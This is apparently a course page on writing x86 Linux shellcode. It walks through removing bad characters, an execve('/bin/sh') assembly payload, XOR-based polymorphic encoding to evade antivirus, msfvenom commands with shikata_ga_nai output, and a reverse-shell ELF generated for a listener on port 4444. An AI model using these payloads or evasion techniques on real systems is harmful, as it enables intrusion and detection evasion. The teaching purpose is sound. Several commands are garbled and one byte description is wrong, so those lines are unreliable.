

Shellcode¶
Properties:
- Shellcode are selfcontained pieces of code: only code segment is available
- Shellcode should not be “stopped” by bad characters
0x00: null (\0)0x09: tab (\t)0x0a: new line (\n)0x0d: return (\r)0xff: form feed (\f)
- Anti virus should not be able to detect them: Most of those tools
work via static analysis : “find a known pattern”
- Cypher your shellcode : Encoding permits to evade anti virus (and various detection tools and in addition, one way to avoid bad characters is to use encodings. It can be applied in rounds but it has a cost : it increases the size of the shellcode (hence can be detected)
| [1] | Penetration Testing with Shellcode |
Hand made shellcode¶
- High level language such as C: Offers portability,standard libraries.
- Assembly language: Specific to an architecture (because of the size of instructions), no standard library. Different architectures lead to different shellcodes since the size operation change even if the objective is the same. On a same architecture, you may still have differences because of executable file format (The Portable Executable (PE) format is a file format for executables, object code, DLLs and others used in 32-bit and 64-bit versions of Windows operating systems and ELF is on Linux and most other versions of Unix).
If we need specific shellcode since the one we need does not exist or may not exist for the target architecture or even for the IP address targeted.
Extract shellcode from binary¶
Use the following command:
objdump -M intel -D helloworld
| grep '[0-9a-f]:'
| grep v 'file'
| cut -f2 -d:
| cut -f1-7 -d ''
| tr -s ''
| tr '\t' ''
| sed 's/ $//g'
| sed 's//\\x/g'
| paste d '' -s
If you use the resulting shell code, you’ll get a segfault due to bad char.
Bad characters¶
Here is how we can deal with bad characters:
Instruction
b8 01 00 00 00(mov eax,0x1) contains bad char- Solution:
mov al, 0x1We have different register size :rdi 64 bits,
64 bits,
edi 32 bits and al 1 bytes. This
will truncated the bad character.
Instruction
bf 01 00 00 00(mov edi,0x1) contains bad char- Solution:
xor rdi,rdi(xor a,asetsato 0) add rdi,1
- Solution:
Not text section¶
Sequence like the following is problematic shell code must be self contained:
section .text
...
movabs rsi,0x6000d8 #(this is here that hello world is uploaded)
...
section .data
hello_world: db ‘hello world’,0xa
Solution: use the relative address principle. Jump is necessary
to avoid executing data in .text section! Latter, we will see an
alternative with a stack push.
Section .text
jump code
hello_world: db ‘hello world’, 0xa
code: ...
lea rsi,[rel hello_world]
execve calling convention¶
int execve(const char *path, char *const argv[], char *const envp[]);
Replace current shell with another one (its first parameter). In assembly:
argument 1 : new shell (
/bin/sh)- argument 2: arguments called with the new shell(by convention, first position is shell itself, followed by 0)
argument 3: pointers to environment variables for new shell(here nothing).
Calling convention: [2]
- Function called via int
0x80(interruption) - Its call number is pushed in
EAX, it is 11 - Arguments are placed in
EBX,ECX,EDX(in this order)- We have 3 arguments for 3 registers
- The idea is to write everything in
EBX- Start with
/bin/shXAAAABBBB(segment data) - Make sure that 0 is viewed as null terminating string.
- Then replace
aaaaby address ofEBX(hence we consider 0 arguments and put back the shell address) - The replace
bbbbby0000(to not introduce environment variables) - Then load addresses from
EBX, EBX+8(inECX) andEBX+12(inEDX)
- Start with
segment .data
cheminshell db "/bin/shXAAAABBBB"
segment .text
global _start
_start: #here we go
mov eax,0 #EAX contains 0
mov ebx,cheminshell #EBX has the address of the string
mov [ebx+7],al #[EBX+7] contains NULL terminates string
mov [ebx+8],ebx #[EBX+8] contains the second argument (so to the shell code)
mov [ebx+12],eax #[EBX+12] contains the third argument (here, environment variables set to NULL)
lea ecx,[ebx+8] #ECX pointer to execve’s arguments
lea edx,[ebx+12] #EDX contains empty env pointer
mov eax,11 #Execve is interruption 11
int 0x80 #Syscall 11
This shellcode can still be executed, but cannot be used as a payload
nasm display-shell.asm -o display-shell.o -f elf
&& ld -s -m elf_i386 display-shell.o-o display-shell
&& ./affichage-shell
- Observation: shellcode has a
.datasection
Remove .data section¶
#Instruction mov ebx,cheminshell is removed from .text
jmp two #Jump to a place that calls "return" function
one:
pop ebx #And replace by mov EBX,cheminshell by POP EBX
#mov eax,0
xor eax,eax
mov [ebx+7],al
mov [ebx+8],ebx
mov [ebx+12],eax
lea ecx,[ebx+8]
lea edx,[ebx+12]
#mov eax,11 #Not good: B80B 000000
int 0X80;
mov al,11
two:
call one #calls "return" function
db'/bin/shXAAAABBBB' #Address of Next instruction (here db..) will be pushed on the stack!
- Observation: Sequences of 0 are introduce by
mov eax,0x0which is equivalent toxor eax, eax - Observation: Sequences of 0 are introduce by
mov eax,11mov eax,0xbis equivalent to66 B8 0C 00 00 00 00- 32 bits registers, 11 is represented with
00 00 00 00 0C mov eax,11becomesmov al,11
Polymorphic shellcode¶
What can easily be detected in our shellcode? String. Shellcode should be cyphered, this is the auto-decoding shell code principle.
- Property: 
Auto decoding shellcode program read cyphered shellcode, xor it with the key and output the original shell code. It can be much more sophisticated.
| [2] | https://www.bases-hacking.org/coding_shellcode.html |
Dedicated tools¶
There are many tools and web sites that propose shellcodes [3], all payloads available on dedicated tools have been manually written and of course tools such as Metasploit.
Metasploit framework¶
Existing tools for shellcode production can be find in Metasploit
and msfvenom. The Metasploit Project is a huge security project that
provides a wide range of payloads and exploits for various platform.
There is many other tools such as webfuzzing, torch and many
other.
msfvenom¶
msfvenom is one of Metasploit’stools, it is the merge of
msfpayload and msfencod. It offers more than 400 payloads
(msfvenom -list p) [4]
msfvenom --payload linux/x86/exec --platform linux --arch x86 --format hex c
--bad-chars '\x00' '\xa0' '\x0d' '\x20' CMD="echo testing exploit:pwn!"
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_naisucceededwithsize 89 (iteration=0)
x86/shikata_ga_naichosenwithfinal size 89
Payload size: 89 bytes
Final size of hexfile: 178 bytes
bdcc755e9cdac7d97424f45b29c9b11083ebfc316b10036b102e803497f6f29bc16e287f87895a50
e43d9bc625dff278b3fc576dd802586dba6130026431a5af10d04b37f947ecc795e8655c5cd605eb
ce37e6445cbe07a7e2
#Produce elf formated files
msfvenom --payload linux/x86/exec --platform linux --arch x86 --format hex c
--bad-chars '\x00' '\xa0' '\x0d' '\x20' CMD="echo testing exploit:pwn!" –f elf> result.elf
#Encoder
msfvenom --payload linux/x86/exec --platform linux --arch x86 --format hex c
--bad-chars '\x00' '\xa0' '\x0d' '\x20' -e x86/shikata_ga_nai- 4 CMD="echo testing exploit:pwn!"
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_naisucceededwithsize 89 (iteration=0)
x86/shikata_ga_naichosenwithfinal size 89
Successfully added NOP sled from x86/single_byte
Payload size: 93 bytes
Final size of hexfile: 186 bytes
27f5d63fd9cabe7c97edffd97424f45d29c9b11031751903751983edfc9e6287f406140a6dde0bc8
f8f93c21886dbd55410fd4cb142c74fc3cb279fc27d1119387418718bc0029b81cb7cd36315847c3
f386e75c6ae707f4216ee63745
Bind/Reverse shellcode¶
One main step of an attack is to take control of the vulnerable system and then open a backdoor to start amplification of the attack. A backdoor can be:
- A port opened and listening on the vulnerable system: a bind shell
{kind=link}
- A connection from the vulnerable system to the attacker: a reverse shell, in most cases, one goes for reverse shell.
{kind=link}
Netcat is a tool to establish a connection between two entities
- On server :
nc -lvp 444 - Client listen :
nc address 444
Generate an executable ELF file for a reverse shell code on localhost port 4444. On server side:
msfvenom --payload linux/x86/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f elf > shell.elf
Warning
Client must start listening before shell is started, else “segmentation”.
| [3] | http://shell-storm.org/shellcode/ |
| [4] | Metasploit shellcode |